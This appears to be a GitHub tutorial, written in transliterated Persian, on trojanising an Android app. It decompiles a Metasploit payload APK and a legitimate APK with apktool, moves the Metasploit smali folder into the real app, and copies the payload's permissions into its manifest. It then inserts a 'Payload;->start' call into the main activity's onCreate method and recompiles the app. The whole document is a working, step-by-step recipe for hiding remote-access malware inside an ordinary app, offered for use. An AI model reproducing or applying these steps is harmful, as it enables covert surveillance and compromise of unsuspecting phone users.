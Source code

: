 ## Decompile and Recompile An android APK 🧰

Ghasd darim yek app ra decompile karde va pas az tazrigh metasploit dobare recompile konim 

$ bad az sakht metasploit tebgh ravesh gofte shode dar `Android-MetaSploit-L1` 2 kar zer ra bayad anjam dahim

```bash
apktool d /home/kali/Dekstop/rat.apk
```

```bash
apktool d /home/kali/Dekstop/app.apk
```

har 2 app ra decompile mikonim


## Install apktool ⬇️

abzar "apktool" b sorat pishfarz dar kali linux nasb nist va b shekl zer eghdam b nasb konid

```bash
sudo apt install apktool
```

$ bar roye joft poshe haye decompile shode app ha rast click karde va gozine `open as Root` ra mizanim ta baz shavand

### 2 kar ra bayad anjam dahim

1. **Jaygozine metasploit** 
Poshe "metasploit" ra az app alode dar address `smali > com > metasploit` dar hamin address dar app asli jaygozin mikonim
 
 
2. **Edit AndroidManifest.xml** 
Bar roye har 2 file `AndroidManifext.xml` click rast karde va `Open With "MousePad" ra mizanim va karhaye zer ra anjam midahim

- copy ebeart ro b ro az "rat" b "app"        
`<uses-permission android:""/>`

- search `activity android` va dar hamon khat ebarat `android:name=` ro b rosh ye hamchin chizi hast : `com.google.android.gms.common.api.GoogleApiActivity`
- `com.google.android.gms.common.api.GoogleApiActivity` en masir ro dar "app asli" peyda mikonm
example : Poshe smali > Poshe com > Poshe google > Poshe android > Poshe gms > Poshe common > ..... > Akharesh b ye "file" mirsim 
- Dakhel file migardim donbal ebarat `onCreate(Landroid/os/Bundle;)v` Agar chand ta bood , On k avvalesh `method` Dare
- Ye Enter mizanim va khat badi en `invoke-static {p0}, Lcom/metasploit/stage/Payload;->start(Landroid/content/Context;)V` ro ezafe mikonim


Dige ba "rat" kari nadarim va "app asli" ro Recompile mikonim va Tamam ....

```bash
apktool b /home/kali/Dekstop/app.apk
